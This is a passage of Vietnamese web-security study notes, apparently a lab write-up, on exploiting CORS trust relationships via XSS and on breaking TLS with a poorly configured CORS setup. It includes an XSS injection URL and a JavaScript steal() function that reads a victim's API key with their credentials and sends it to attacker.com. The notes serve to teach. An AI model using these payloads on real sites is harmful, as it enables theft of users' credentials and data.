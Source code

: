   Thành công thu được API key của admin: _84bjdoMis0cO1vCeZAW4jnMMCBbtIU34_

--- 

### Exploiting XSS via CORS trust relationships

- CORS cho phép origin A đọc dữ liệu từ origin B nếu B tin tưởng A.

- Server của ```vulnerable-website.com``` thể hiện “tin tưởng” bằng cách trả header:

  ```yaml
  Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
  Access-Control-Allow-Credentials: true
  ```

- Lỗ hổng xảy ra khi: Domain được trust (subdomain.vulnerable-website.com) lại bị dính XSS. Tức ta có thể inject JS chạy trực tiếp trên domain đó.

- Giả sử ta gửi link cho nạn nhân:

  ```url
  https://subdomain.vulnerable-website.com/?xss=<script>steal()</script>
  ```

- Khi nạn nhân bấm link:

  - Trình duyệt tải trang từ ```subdomain.vulnerable-website.com```.
  
  - JS độc của attacker chạy trực tiếp trong context của subdomain.vulnerable-website.com &larr; đây là điểm mấu chốt.
  
  - Vì JS đang chạy trên đúng origin được whitelist bởi CORS, nên browser sẽ cho phép script này đọc dữ liệu từ vulnerable-website.com:
 
  ```javascript
  function steal() {
    fetch('https://vulnerable-website.com/api/requestApiKey', {
        credentials: 'include'
    })
    .then(r => r.text())
    .then(data => {
        // Gửi dữ liệu ăn cắp được về server attacker
        fetch('https://attacker.com/log?key=' + encodeURIComponent(data))
    });
  }
  ```

---

### Breaking TLS with poorly configured CORS

- Ví dụ, một ```vulnerable-website.com``` dùng HTTPS rất nghiêm ngặt, tất cả endpoint chính đều qua https://. Tuy nhiên, nó cấu hình CORS cho phép truy cập từ một subdomain sử dụng HTTP thường: ```http://trusted-subdomain.vulnerable-website.com```

- Dưới dây là cách ta có thể khai thác:

  - Victim đang lướt web bình thường, gửi một request HTTP (không phải HTTPS) — ví dụ vào một trang http://example.com.
 
